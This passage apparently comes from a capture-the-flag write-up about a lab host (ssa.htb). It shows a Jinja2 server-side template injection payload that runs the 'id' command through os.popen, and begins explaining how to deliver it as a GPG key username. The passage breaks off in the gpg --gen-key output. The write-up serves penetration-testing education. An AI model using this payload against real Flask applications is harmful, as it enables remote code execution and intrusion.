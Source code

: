 ![image-20231114125629361](../img/image-20231114125629361.png)

It looks like any time I had `{{ }}` it is handled as code, which suggests the
Flask default template engine, Jinja2.

### RCE

To test for code execution, I’ll grab a payload from further down on the
[HackTricks SSTI page](https://book.hacktricks.xyz/pentesting-web/ssti-server-
side-template-injection#jinja2-python):

    
    
    {{ namespace.__init__.__globals__.os.popen('id').read() }}
    

The steps here are not too complex:

  1. `gpg --gen-key` to make a new key, with that payload as the username, and the email being something new I can remember (so like `rce-id@ssa.htb` for this one that runs `id`).
    
        oxdf@hacky$ gpg --gen-key                                                                            
    gpg (GnuPG) 2.2.27; Copyright (C) 2021 Free Software Foundation, Inc.
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.           
                                                                           